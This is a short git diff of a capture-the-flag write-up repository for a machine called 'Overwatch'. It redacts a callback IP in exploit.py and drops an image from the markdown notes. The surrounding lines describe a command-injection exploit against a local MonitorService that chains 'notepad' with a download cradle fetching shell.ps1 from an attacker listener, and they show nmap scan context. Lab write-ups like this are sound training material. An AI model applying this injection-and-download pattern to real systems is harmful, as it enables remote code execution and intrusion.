

Overwatch Notes

diff --git a/posts/Overwatch/exploit.py b/posts/Overwatch/exploit.py
@@ -3,7 +3,7 @@ import requests
 # Target Configuration (Localhost because of port forwarding)
 target_url = "http://127.0.0.1:8000/MonitorService"
 # Replace with your listener IP where shell.ps1 is hosted
-callback_ip = "10.10.16.46" 
+callback_ip = "10.10.XX.XX" 
 
 # The Injection Payload
 # Chains 'notepad' with the download cradle using a semicolon

diff --git a/posts/Overwatch/Overwatch.md b/posts/Overwatch/Overwatch.md
@@ -40,8 +40,6 @@ nmap -p- --min-rate 10000 10.XXX.X.XXX -oN nmap_all_ports
 
 [Nmap Results](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Overwatch/nmap_results.nmap "Results")
 
-![Exploit.zip](htb_Browsed__Mindmap.png))
-
 **Key Discovery:**
 
 * **Standard Ports:** 53 (DNS), 88 (Kerberos), 445 (SMB), 5985 (WinRM).
